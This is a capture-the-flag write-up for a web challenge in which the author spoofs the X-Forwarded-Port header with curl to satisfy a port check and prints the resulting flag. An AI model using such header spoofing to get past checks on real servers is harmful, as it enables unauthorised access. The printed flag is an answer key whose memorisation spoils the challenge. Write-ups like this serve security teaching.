 ## Description

Can you?

## Solution

when we request the site we get :

```
└─$ curl https://can-you.hackini24.shellmates.club/ -k

The source port is 57077, I want 0o1337.
```

we notice that the port is changing with every request :

```
└─$ curl https://can-you.hackini24.shellmates.club/ -k
The source port is 57077, I want 0o1337.

└─$ curl https://can-you.hackini24.shellmates.club/ -k
The source port is 44733, I want 0o1337.

└─$ curl https://can-you.hackini24.shellmates.club/ -k
The source port is 30638, I want 0o1337.
```

there is a header called `X-Forwarded-Port` which is a request header that helps you identify the destination port that the client used to connect to the server, let's try to specify that header with a random port and see if that's the one that will be displayed one the response :

```
└─$ curl https://can-you.hackini24.shellmates.club/ -k -H 'X-Forwarded-Port: 8888'
The source port is 8888, I want 0o1337.
```

we confirmed that we can control the port, now we need to send it the port it wants.

it says that it want `0o1337`, the `0o` hints that it wants `octal`, like `0x` refers to hex, the `0o` refers to octal, from here we understand that it wants the octal decoded value of `1337`, let's do that :

```
└─$ echo $((8#1337))
735
```

let's try `735` as the port :

```
└─$ curl https://can-you.hackini24.shellmates.club/ -k -H 'X-Forwarded-Port: 735'
shellmatess{c0ntr0l_th3_50urc3_p0rt5_4nd_y0u_c0ntr0l_th3_w0rld}
```

- flag: `shellmatess{c0ntr0l_th3_50urc3_p0rt5_4nd_y0u_c0ntr0l_th3_w0rld}`
